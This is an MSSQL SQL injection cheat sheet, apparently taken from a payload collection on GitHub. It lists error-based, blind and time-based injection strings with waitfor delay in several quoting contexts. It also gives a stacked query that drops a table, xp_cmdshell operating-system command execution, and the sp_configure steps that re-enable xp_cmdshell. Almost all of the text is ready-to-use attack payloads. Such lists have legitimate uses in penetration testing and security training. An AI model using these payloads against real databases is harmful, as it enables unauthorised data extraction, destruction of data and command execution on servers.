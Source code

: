 
## MSSQL Error based

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

## MSSQL Blind based

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## MSSQL Time based

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'     comment:   --
```

## MSSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
ProductID=1; DROP members--
```

## MSSQL Command execution

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```
